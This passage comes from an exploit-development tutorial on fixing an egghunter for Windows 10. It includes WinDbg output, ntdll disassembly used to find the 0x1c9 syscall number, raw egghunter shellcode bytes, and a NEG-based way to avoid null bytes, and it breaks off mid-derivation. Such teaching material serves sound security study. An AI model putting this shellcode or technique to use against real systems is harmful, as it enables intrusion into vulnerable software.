 ```c
0472eab3 ffe7            jmp     edi
```

Our egghunter code is present in memory and appears to be intact. It should find our "w00tw00t" egg, which is here:
```c
0:008> s -a 0x0 L?80000000 w00tw00t
04b38186  77 30 30 74 77 30 30 74-44 44 44 44 44 44 44 44  w00tw00tDDDDDDDD
```

However, if we put a breakpoint in the address of the egg, and we continue the program, it keeps infinitely running and the breakpoint is not hit, meaning that it has not been able to find our egg buffer. We know the buffer is stored in memory so the problem is in our egghunter code.

While we can find plenty of exploits publicly available that include this egghunter, it appears that they are all targeting applications on Windows 7 or prior. This means that some changes occurred in between Windows 7 and Windows 10 that break the functionality of our egghunter. **This means that it is possible that the egghunter that we used does not work in Windows 10 for some reason.**

Indeed, it does not work because of the **SSN we have used. We have used the SSN 0x02 but this SSN is different in our Windows for the syscall we want to perform.** Let's check the official function in ntdll to see which SSN it is using:
```c
ntdll!NtAccessCheckAndAuditAlarm:
77cd24d0 b8c9010000      mov     eax,1C9h
77cd24d5 e803000000      call    ntdll!NtAccessCheckAndAuditAlarm+0xd (77cd24dd)
77cd24da c22c00          ret     2Ch
77cd24dd 8bd4            mov     edx,esp
77cd24df 0f34            sysenter
77cd24e1 c3              ret
77cd24e2 8da42400000000  lea     esp,[esp]
77cd24e9 8da42400000000  lea     esp,[esp]
```

Based on this output, the SSN is 0x1c9. Let's change the script to replace our PUSH 0x02 instruction to push 0x1c9. Let's see the resulting egghunter:
```c
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x68\xc9\x01\x00\x00\x58\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7")
```

So bad! Our new egghunter has null bytes! These null bytes are bad characters and will prevent us from crashing the application.
We have to modify the code of the egghunter a bit so that it does the same, but these bytes do not appear.
We are going to use the NEG assembly instruction. We need to generate a negative value that, when substracted from 0x00, will result in 0x1c9. 
Let's examine how we can do this:
```c
0:009> ? 0x0 - 0x1c9
Evaluate expression: -457 = fffffe37

0:009> ? 0x0 - 0xfffffe37
Evaluate expression: -4294966839 = ffffffff`000001c9
```

